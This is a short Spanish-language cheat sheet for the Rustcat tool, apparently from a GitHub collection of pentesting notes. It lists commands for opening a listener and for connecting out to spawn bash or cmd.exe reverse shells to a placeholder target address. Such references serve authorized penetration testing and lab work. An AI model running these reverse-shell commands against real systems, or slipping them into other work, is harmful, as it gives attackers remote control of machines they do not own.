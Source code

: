 # Rustcat Cheat Sheet

#### Ponerse en escucha en un puerto, usando comando de historial, completado de comando y bloqueo de ctrl-c
```
rcat listen -ib <PORT>
```

#### Conectarse y crear una bash reverse shell (Linux)
```
rcat connect -s bash <IP-TARGET> <PORT-TARGET>
```

#### Conectarse y crear un reverse shell (Windows)
```
rcat connect -s cmd.exe <IP-TARGET> <PORT-TARGET>
```

#### Escucha el puerto 55660 en localhost con historial de comandos y finalización de comandos e inicia un bash con modo interactivo en la conexión recibida:
```
rcat listen -ie "/bin/bash -i" 55660
```

#### Escucha el puerto 55660 en 0.0.0.0 con modo interactivo local:
```
rcat listen -l 55660
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)